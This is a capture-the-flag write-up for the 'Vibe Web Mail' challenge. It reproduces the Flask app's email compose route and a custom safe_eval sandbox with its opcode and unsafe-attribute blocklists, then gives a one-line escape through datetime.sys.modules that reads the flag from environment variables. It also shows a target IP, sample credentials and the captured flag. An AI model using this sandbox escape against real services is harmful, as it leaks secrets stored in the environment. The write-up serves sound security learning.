

# Vibe Web Mail — Iran Tech Olympics CTF 2025

> **Room / Challenge:** Vibe Web Mail (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Iran Tech Olympics CTF 2025
- **Challenge:** Vibe Web Mail (web)
- **Target / URL:** `http://65.109.209.215:5000`
- **Difficulty:** `Easy / Medium`
- **Points:** `74`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag by finding a vulnerability through sending mails process.

## My Solution

Here is the [Source Code](./vibe-web-mail.zip)

This is not a tricky or need lots of techniques to get the flag.

This challenge requires us spending an necessary amount of time examining the source code and testing what we can think of.

This web mail is written in Python and Flask. We can see the `requirements.txt`:

```
Flask
Jinja2
Flask-WTF
Flask-SQLAlchemy
Flask-Login
email-validator
python-dotenv
Werkzeug
Pillow
```

In `app.py`, we can easily see a function to create sample users which we can use this accounts for testing:

```python
def create_sample_users():
    from models import User
    if not User.query.filter_by(email='alice@example.com').first():
        user1 = User(username='alice', email='alice@example.com', password='password123')
        user2 = User(username='bob', email='bob@example.com', password='securepass')
        db.session.add_all([user1, user2])
        db.session.commit()
        print("[+] Sample users created.")
    else:
        print("[=] Sample users already exist.")
```

For some reason, I just could login as `bob`. I don't know why `alice` account always show error.

There are several files and details of the source code, however we have to focus on this route:

```python
@emails_bp.route('/compose', methods=['GET', 'POST'])
@login_required
def compose():
    form = ComposeForm()
    form.recipient.choices = [(user.id, user.username) for user in User.query.filter(User.id != current_user.id).all()]

    if form.validate_on_submit():
        attachment_path = None
        if form.attachment.data:
            attachment_path = save_uploaded_file(form.attachment.data)
            if not attachment_path:
                flash('Invalid file type. Allowed types are: jpg, jpeg, png, gif, bmp, webp', 'danger')
                return redirect(url_for('emails.compose'))

        rendered_body = render_email_template(form.body.data)

        if not rendered_body:
            flash('There was an error processing your message', 'danger')
            return redirect(url_for('emails.compose'))

        email = Email(
            subject=form.subject.data,
            body=escape(rendered_body),
            attachment_path=attachment_path,
            sender_id=current_user.id,
            recipient_id=form.recipient.data
        )
        db.session.add(email)
        db.session.commit()
        flash('Your email has been sent!', 'success')
        return redirect(url_for('emails.inbox'))

    return render_template('emails/compose.html', form=form)
```

This `/compose` route is where we have to do the exploit. Also you have to take a look at `safe_eval.py` file, where the validation works when we submit a mail.

```python
import dis
import logging
import functools
from opcode import opmap, opname
from types import CodeType
import types
import datetime
import ctypes

_logger = logging.getLogger(__name__)

unsafe_eval = eval

_BUILTINS = {
    'datetime': datetime,
    'True': True,
    'False': False,
    'None': None,
    'bytes': bytes,
    'str': str,
    'unicode': str,
    'bool': bool,
    'int': int,
    'float': float,
    'enumerate': enumerate,
    'dict': dict,
    'list': list,
    'tuple': tuple,
    'map': map,
    'abs': abs,
    'min': min,
    'max': max,
    'sum': sum,
    'reduce': functools.reduce,
    'filter': filter,
    'sorted': sorted,
    'round': round,
    'len': len,
    'repr': repr,
    'set': set,
    'all': all,
    'any': any,
    'ord': ord,
    'chr': chr,
    'divmod': divmod,
    'isinstance': isinstance,
    'range': range,
    'xrange': range,
    'zip': zip,
    'Exception': Exception,
}

def to_opcodes(opnames, _opmap=opmap):
    for x in opnames:
        if x in _opmap:
            yield _opmap[x]

_BLACKLIST = set(to_opcodes([
    'IMPORT_STAR', 'IMPORT_NAME', 'IMPORT_FROM',
    'STORE_ATTR', 'DELETE_ATTR',
    'STORE_GLOBAL', 'DELETE_GLOBAL',
]))

_CONST_OPCODES = set(to_opcodes([
    'POP_TOP', 'ROT_TWO', 'ROT_THREE', 'ROT_FOUR', 'DUP_TOP', 'DUP_TOP_TWO',
    'LOAD_CONST',
    'RETURN_VALUE',
    'BUILD_LIST', 'BUILD_MAP', 'BUILD_TUPLE', 'BUILD_SET',
    'BUILD_CONST_KEY_MAP',
    'LIST_EXTEND', 'SET_UPDATE',
    'COPY', 'SWAP',
    'RESUME',
    'RETURN_CONST',
    'TO_BOOL',
])) - _BLACKLIST

_operations = [
    'POWER', 'MULTIPLY',
    'FLOOR_DIVIDE', 'TRUE_DIVIDE', 'MODULO', 'ADD',
    'SUBTRACT', 'LSHIFT', 'RSHIFT', 'AND', 'XOR', 'OR',
]

_EXPR_OPCODES = _CONST_OPCODES.union(to_opcodes([
    'UNARY_POSITIVE', 'UNARY_NEGATIVE', 'UNARY_NOT', 'UNARY_INVERT',
    *('BINARY_' + op for op in _operations), 'BINARY_SUBSCR',
    *('INPLACE_' + op for op in _operations),
    'BUILD_SLICE',
    'LIST_APPEND', 'MAP_ADD', 'SET_ADD',
    'COMPARE_OP',
    'IS_OP', 'CONTAINS_OP',
    'DICT_MERGE', 'DICT_UPDATE',
    'GEN_START',
    'BINARY_OP',
    'BINARY_SLICE',
])) - _BLACKLIST

_SAFE_OPCODES = _EXPR_OPCODES.union(to_opcodes([
    'POP_BLOCK', 'POP_EXCEPT',
    'SETUP_LOOP', 'SETUP_EXCEPT', 'BREAK_LOOP', 'CONTINUE_LOOP',
    'EXTENDED_ARG',
    'MAKE_FUNCTION', 'CALL_FUNCTION', 'CALL_FUNCTION_KW', 'CALL_FUNCTION_EX',
    'CALL_METHOD', 'LOAD_METHOD',
    'GET_ITER', 'FOR_ITER', 'YIELD_VALUE',
    'JUMP_FORWARD', 'JUMP_ABSOLUTE', 'JUMP_BACKWARD',
    'JUMP_IF_FALSE_OR_POP', 'JUMP_IF_TRUE_OR_POP', 'POP_JUMP_IF_FALSE', 'POP_JUMP_IF_TRUE',
    'SETUP_FINALLY', 'END_FINALLY',
    'BEGIN_FINALLY', 'CALL_FINALLY', 'POP_FINALLY',
    'RAISE_VARARGS', 'LOAD_NAME', 'STORE_NAME', 'DELETE_NAME', 'LOAD_ATTR',
    'LOAD_FAST', 'STORE_FAST', 'DELETE_FAST', 'UNPACK_SEQUENCE',
    'STORE_SUBSCR',
    'LOAD_GLOBAL',
    'RERAISE', 'JUMP_IF_NOT_EXC_MATCH',
    'PUSH_NULL', 'PRECALL', 'CALL', 'KW_NAMES',
    'POP_JUMP_FORWARD_IF_FALSE', 'POP_JUMP_FORWARD_IF_TRUE',
    'POP_JUMP_BACKWARD_IF_FALSE', 'POP_JUMP_BACKWARD_IF_TRUE',
    'POP_JUMP_FORWARD_IF_NONE', 'POP_JUMP_BACKWARD_IF_NONE',
    'POP_JUMP_FORWARD_IF_NOT_NONE', 'POP_JUMP_BACKWARD_IF_NOT_NONE',
    'CHECK_EXC_MATCH',
    'RETURN_GENERATOR',
    'PUSH_EXC_INFO',
    'NOP',
    'FORMAT_VALUE', 'BUILD_STRING',
    'END_FOR',
    'LOAD_FAST_AND_CLEAR', 'LOAD_FAST_CHECK',
    'POP_JUMP_IF_NOT_NONE', 'POP_JUMP_IF_NONE',
    'CALL_INTRINSIC_1',
    'STORE_SLICE',
    'CALL_KW', 'LOAD_FAST_LOAD_FAST',
    'STORE_FAST_STORE_FAST', 'STORE_FAST_LOAD_FAST',
    'CONVERT_VALUE', 'FORMAT_SIMPLE', 'FORMAT_WITH_SPEC',
    'SET_FUNCTION_ATTRIBUTE',
])) - _BLACKLIST

_UNSAFE_ATTRIBUTES = [
    'f_builtins', 'f_code', 'f_globals', 'f_locals',
    'func_code', 'func_globals',
    'co_code', '_co_code_adaptive',
    'mro',
    'tb_frame',
    'gi_code', 'gi_frame', 'gi_yieldfrom',
    'cr_await', 'cr_code', 'cr_frame',
    'ag_await', 'ag_code', 'ag_frame',
]

def safe_eval(expr, globals_dict=None, locals_dict=None, mode="eval", nocopy=False, locals_builtins=False, filename=None):
    if type(expr) is CodeType:
        raise TypeError("safe_eval does not allow direct evaluation of code objects.")

    if not nocopy:
        if (globals_dict is not None and type(globals_dict) is not dict) \
                or (locals_dict is not None and type(locals_dict) is not dict):
            _logger.warning(
                "Looks like you are trying to pass a dynamic environment, "
                "you should probably pass nocopy=True to safe_eval().")
        if globals_dict is not None:
            globals_dict = dict(globals_dict)
        if locals_dict is not None:
            locals_dict = dict(locals_dict)

    check_values(globals_dict)
    check_values(locals_dict)

    if globals_dict is None:
        globals_dict = {}

    globals_dict['__builtins__'] = dict(_BUILTINS)
    if locals_builtins:
        if locals_dict is None:
            locals_dict = {}
        locals_dict.update(_BUILTINS)
    c = test_expr(expr, _SAFE_OPCODES, mode=mode, filename=filename)
    try:
        return unsafe_eval(c, globals_dict, locals_dict)
    except Exception as e:
        raise ValueError('%r while evaluating\n%r' % (e, expr))

def check_values(d):
    if not d:
        return d
    for v in d.values():
        if isinstance(v, types.ModuleType):
            raise TypeError(f"""Module {v} can not be used in evaluation contexts.""")
    return d

def test_expr(expr, allowed_codes, mode="eval", filename=None):
    try:
        if mode == 'eval':
            expr = expr.strip()
        code_obj = compile(expr, filename or "", mode)
    except (SyntaxError, TypeError, ValueError):
        raise
    except Exception as e:
        raise ValueError('%r while compiling\n%r' % (e, expr))
    assert_valid_codeobj(allowed_codes, code_obj, expr)
    return code_obj

def assert_valid_codeobj(allowed_codes, code_obj, expr):
    assert_no_dunder_name(code_obj, expr)

    code_codes = {i.opcode for i in dis.get_instructions(code_obj)}
    if not allowed_codes >= code_codes:
        raise ValueError("forbidden opcode(s) in %r: %s" % (expr, ', '.join(opname[x] for x in (code_codes - allowed_codes))))

    for const in code_obj.co_consts:
        if isinstance(const, CodeType):
            assert_valid_codeobj(allowed_codes, const, 'lambda')

def assert_no_dunder_name(code_obj, expr):
    for name in code_obj.co_names:
        if "__" in name or name in _UNSAFE_ATTRIBUTES:
            raise NameError('Access to forbidden name %r (%r)' % (name, expr))
```

I tried doing some simple math in the content:

```
Content: 1 + 1

Receive content: 2
```

We can see that it is possible to do math. I tried other commands and come to:

```python
datetime.sys.modules["os"].environ["FLAG"]
```

You can use `bob`/`alice` account and send this to your registered account **in the content** of the mail. You will receive the flag



The flag is: `ASIS{PH1ND_50m3_V183_1n_3NV_de1d8572fde00fb04f06d1ce}`
